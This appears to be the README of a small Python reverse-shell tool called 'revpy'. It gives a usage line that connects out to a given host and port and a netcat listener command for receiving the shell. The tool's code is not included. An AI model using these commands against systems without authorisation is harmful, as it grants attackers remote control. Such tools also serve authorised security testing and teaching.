 # revpy
Primative reverse shell written in Python.

# usage
python rev.py <hostname> <port>

# how to run a server
run "netcat -lp <port>"
